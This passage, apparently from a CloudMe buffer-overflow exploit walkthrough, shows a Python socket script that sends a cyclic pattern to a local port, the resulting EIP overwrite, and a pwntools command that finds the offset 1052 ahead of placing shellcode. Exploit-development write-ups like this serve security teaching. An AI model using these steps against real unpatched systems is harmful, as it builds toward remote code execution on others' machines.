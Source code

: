 ```
#!/usr/bin/python3
import socket,time

buffer=b"aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaacka [...]"

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1",8888))

s.send(buffer)
```

The randomly generated pattern was sent instead of the A characters.

The application crashed with an access violation error as expected, but this time the EIP record was overwritten with the characters ```naak```"

![eip](/assets/imgs/cloudme/eip.png)

------

## Finding Available Shellcode Space

```
❯ pwn cyclic -l "naak" 2>/dev/null
1052
```
